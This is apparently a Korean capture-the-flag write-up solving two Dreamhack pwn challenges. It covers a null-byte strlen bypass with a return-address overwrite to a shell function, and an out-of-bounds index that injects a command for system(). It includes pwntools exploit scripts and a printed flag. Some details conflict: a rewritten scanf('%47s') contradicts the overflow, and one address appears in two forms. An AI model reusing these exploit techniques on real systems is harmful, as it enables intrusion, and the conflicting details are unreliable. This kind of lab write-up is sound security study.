

# 1. block_bof 풀이

## 개요

* block bof 의 파일 구조를 보면 다음과 같다
```
block_bof/
 ├─ deploy/
 │   ├─ block_bof   ← 취약 바이너리
 │   └─ flag        ← 플래그 파일
 └─ Dockerfile      ← 컨테이너 실행용 (분석 불필요)
```
* 아마도 우리가 살펴봐야할 파일을 flag이다.


## [1-1]: IDA 분석
* IDA로 flag 컴파일 파일에서 main함수만 까보자

--- [결과] ---

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[10]; // [rsp+6h] [rbp-3Ah] BYREF
  _BYTE v5[48]; // [rsp+10h] [rbp-30h] BYREF

  init(argc, argv, envp);
  puts("Hello, Can you Get shell???");
  puts("It's unexploitable program XDDDDD");
  puts("what is your name??");
  read(0, buf, 0xAuLL);
  printf("OPPS %sCan you exploit This Program?\n", buf);
  printf("Your commnet : ");
  __isoc99_scanf("%s", v5);
  check(v5);
  puts("Very EEEEEZ XDDDDDD\n");
  puts("Bye Bye ~~\n");
  return 0;
}
```

> 이게 IDA 프리웨어 버전이여서 그런가 C언어가 어렵게 적어져 있는데, 우리들의 든든한 우군 GPT씨에게 쉬운 문법으로 적어달라고 해보면 기깔나게 적어준다.

---[GPT씨에게 쉬운문법으로 적어달라고 한 결과]---

```c
int main(int argc, char *argv[], char *envp[])
{
    // 1
    char name[10];
    char comment[48];

    // 2
    init(argc, argv, envp);

    // 3
    puts("Hello, Can you Get shell???");
    puts("It's unexploitable program XDDDDD");
    puts("what is your name??");

    // 4
    /* 이름을 최대 10바이트까지 읽음 */
    read(STDIN_FILENO, name, sizeof(name));

    // 5
    printf("OPPS %sCan you exploit This Program?\n", name);
    printf("Your commnet : ");

    // 6
    /* 댓글을 최대 47문자까지 읽고 널 중단 */
    scanf("%47s", comment);
    check(comment);

    // 7
    puts("Very EEEEEZ XDDDDDD");
    puts("Bye Bye ~~");

    return 0;
}
```

### 주석 1번 해석
* 할 말이 없다 그냥 변수 선언

### 주석 2번 해석
* 또한 할 말이 없다 그냥 단순한 초기화 함수인데..! <br>
굳이 설명을 하자면 초기화 함수인데, 아마 뜬 의도가 어떤 환경에서든지 문제환경과 같게 컴파일 되도록 해주는 역할을 한다. 굳이 건들필요 XX
 
### 주석 3번 해석
* 단순 출력문들

### 주석 4번 해석
* 그냥 단순이 이름 입력받는 부분, 딱히 보안적으로 공격할 의미도 없어보인다.

### 주석 5번 해석
* 의미없는 출력

### 주석 6번 해석
* 현재 스택 상에서 보면 name이 10바이트 잡고 있고 그 뒤로 선언된 comment가 47바이트를 잡고 있다. 그러고 나서 check가 실행되는 형식인데 만약 check가 실행되고 ```return 0;``` 에서 리턴되는 주소를 ```return 0`;``` 대신 아까 눈여겨 보아온 ```execve("/bin/sh", NULL, NULL);``` 를 실행하는 주소를 넣어주면 뭔가 가슴벅차고 아름다운일이 일어날 것 같다.

--- [check함수] ---

```c
long check(const char *comment)
{
    /* 길이가 15자를 넘으면 종료 */
    if (strlen(comment) > 15) {
        puts("Very long comment XDDD");
        exit(0);
    }

    puts("Hmm.. It's real??");
    return 0;
}
```

> 우리들의 노력이 헛수고가 되는 현장이다. 아무런 영양가 없는 함수였다. 그러면 IDA상에서 get_sehll이라는 함수가 눈에 들어와야한다. 그러고 이제 get_sehll을 IDA로 까보면 다음과 같다.

--- [get_sehll함수] ---

```c
int get_shell(void)
{
    /* 메시지 출력 */
    printf("U R Best HACKER!\n");

    /* /bin/sh 실행 */
    execve("/bin/sh", NULL, NULL);

    /* execve 실패 시 리턴 */
    return -1;
}
```
> 맘마미아 파파미아 빙고다.  ```execve("/bin/sh", NULL, NULL);```라는 함수를 실행하면 뭔가 아름다운 결과가 일어나지 않겠는가? 멋쟁이 해커로그인 동아리원들은 가슴을 부여잡고 brr떨면서 곧 죽어도 저 ```execve("/bin/sh", NULL, NULL);```함수를 실행시킬려고 여정을 떠나야 한다. 그러러면 해당 ```execve("/bin/sh", NULL, NULL);``` 함수의 실행 영역을 살펴볼 필요가 있다. 이런 건 멍청하게 GDB로 하나하나 까고 있으면 개멍청이 그냥 IDA 딸깍 끝이다.

 

에 커서를 올리고 IDA 레지스터 값을 보면 ```0x40178```이라고 뜰텐데 그게 바로 해당 함수의 실행 레지스터 값이다.

### 주석 7번 해석
* 의미 없는 출력

## [1-2]: 공격 시퀀스

```bash
1. name 배열에는 아무거나 입력한다.
    ㄴ 왜냐면 왜냐지 그걸 왜 궁금해 딱 봐도 의미없잖아

2. comment에 execve("/bin/sh", NULL, NULL); 가 실행되는 리턴 값을 강제로 삽입한다. 이때 중요한게 check 함수의 if문 방화벽을 우회하는 것이다. 다음과 같은 if문을 살펴보자.
 
if (strlen(comment) > 15) {
    puts("Very long comment XDDD");
    exit(0);
}

여기서, strlen의 방화벽을 뚫는 것인데, strlen은 non-NULL 바이트만 길이로 취급한다. 즉, NULL 문자열이면(문자열이 \00이면) strlen은 이 널문자열이 10개 있든, 100개 있든, 1000개가 있든, 문자열을 **0** 개로 인식한다는 것이다.

그러면, comment를 널문자로 싹 다 뒤덮고, 뒤에 return 0; 즉, 리턴 메모리주소까지 널문자고 덮고, 리턴 값을 execve("/bin/sh", NULL, NULL); 로 박아주면 execve("/bin/sh", NULL, NULL); 가 실행이 되겠다.

3. bin/sh 까지 가면 일단 일반적인 LINUX OS라면 해당 디렉토리 안에는 각종 shell 파일들이 있다. shell이 뭔지 설명하기에는 설명이 길어지니 패스하고, shell에 간 후 아마 

>> cat flag

를 실행하면 flag가 출력되지 않을까?
```

## [1-3]: pwntools 작성

나는 결과 지향적인 걸 좋아한다. 일단 바로 파이썬 코드부터 살펴보자

```python
from pwn import *

#program="./test"
host='host8.dreamhack.games'
port=10022 # 서버 주소 설정

#p=process(program)
p=remote(host,port)

win=0x401278 # 코드 영역에서 execve("/bin/sh")을 실행하는 주소

p.sendafter(b'what is your name??\n',b'Rootsquare') # 이름은 아무 것이나 해도 좋다.
p.sendlineafter(b'Your commnet : ',b'\x00'*56+p64(win)) # main 함수의 반환 주소를 덮는다.
for i in range(0,6,1): # 시스템 출력 읽기. 필요 없으므로 치운다.
    p.recvline()

p.sendline(b'cat flag') # 플래그를 읽는다.
flag=p.recvline().decode()
p.close()
print('Flag : '+flag)
```

하나하나 살펴보자

```python
#program="./test"
host='host8.dreamhack.games'
port=10022 # 서버 주소 설정

#p=process(program)
p=remote(host,port)
```

* 해당 문제의 드림핵 VM에 접속하는 코드

```python
win=0x401278 # 코드 영역에서 execve("/bin/sh")을 실행하는 주소
```

* 주석에도 나와있고 C언어 해석 부분에서 충분히 설명했다

```python
p.sendafter(b'what is your name??\n',b'Rootsquare') # 이름은 아무 것이나 해도 좋다.
p.sendlineafter(b'Your commnet : ',b'\x00'*56+p64(win)) # main 함수의 반환 주소를 덮는다.
```

* 여기서 이제 comment에 널문자를 넣어주는데, 일단 기본 comment 배열 값인 47개에 널문자를 넣어주고, 원래 return 0값의 주소값인 8바이트 만큼 더 널문자를 넣어줘야 comment가 strlen의 보안에 안 걸리면서 return 0;의 주소값에 그 다음으로 오는 ```execve("/bin/sh")```의 실행 주소값을 넣어줄 수 있다. 

* 그 다음으로 이제 win 함수 주소를 리턴 주소에 덮어쓰기 위해서 페이로드가 함수 탈출(return) 시 다음에 실행될 주소로 win 함수를 가리키도록 해야, 정상 흐름이 아닌 우리가 원하는 win() 코드로 점프한다.

* p64(...)는 64비트 리틀엔디언 포맷으로 주소를 바이트 배열로 변환 x86_64 기계는 메모리에 주소를 리틀엔디언(하위 바이트 먼저) 형식으로 저장하므로,

```python
p64(win)
```

를 호출해야 페이로드에 올바른 바이트 순서가 들어갑니다.

결국 payload = b"A"*offset + p64(win) 라고 하면

1. 버퍼를 덮고

2. 그 뒤에 win 함수의 진짜 시작 주소(리틀엔디언 바이트)가 들어가

3. ret 시 CPU가 그 주소로 점프해 win()을 실행하게 된다.

---
# 2. out_of_bound 풀이

## 개요
```
block_bof/
 ├─ out_of_bound*       # 컴파일 파일
 ├─ out_of_bound.c      # C언어 파일
```

## C언어 분석 그리고 취약점 찾기

> 일단 C언어부터 까보자

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

### 1. 문제 코드 핵심 요약

```c
char name[16];
char *command[10] = {"cat", "ls", "id", "ps", "file ./oob"};
...
read(0, name, sizeof(name));
scanf("%d", &idx);
system(command[idx]);
```

* `command[idx]`에 대한 **범위 검사 없음**
* `name`과 `command`가 **메모리상 연속적으로 위치**함 → OOB 가능

---

### 2. 메모리 레이아웃 분석 (gdb)

```
command: 0x804a060
name:    0x804a0ac
```

* 차이: `0x4c = 76 bytes`
* 포인터 배열이므로 4바이트 단위 → `76 / 4 = 19`
* 즉, `idx = 19`일 때 `command[19] == name`

---

### 3. 익스플로잇 원리

* `command[19]`는 `name`을 가리키게 됨
* `name`에 다음과 같이 구성:

  * 앞 4바이트: `name+4` 주소 → system이 참조할 명령어 위치
  * 뒤 8바이트: 실제 명령어 문자열 (예: "cat flag")

```python
payload = p32(0x804a0ac+4) + b"cat flag"
```

---

### 4. 공격 코드

```python
from pwn import *

p = remote("host3.dreamhack.games", 22629)
payload = p32(0x804a0ac + 4) + b"cat flag"
p.sendlineafter("name: ", payload)
p.sendlineafter("want?: ", b"19")
print(p.recv(100).decode())
```

---

### 5. 공격 결과

* `system("cat flag")`가 실행되어 flag 노출

```
DH{2524e20ddeee45f11c8eb91804d57296}
```

---

### 6. 요약

* `idx` 범위 검사 누락으로 OOB 가능
* `command[idx]`를 `name`으로 유도 → 포인터 인젝션
* system 호출 인자로 `name+4`를 전달하여 원하는 명령 실행

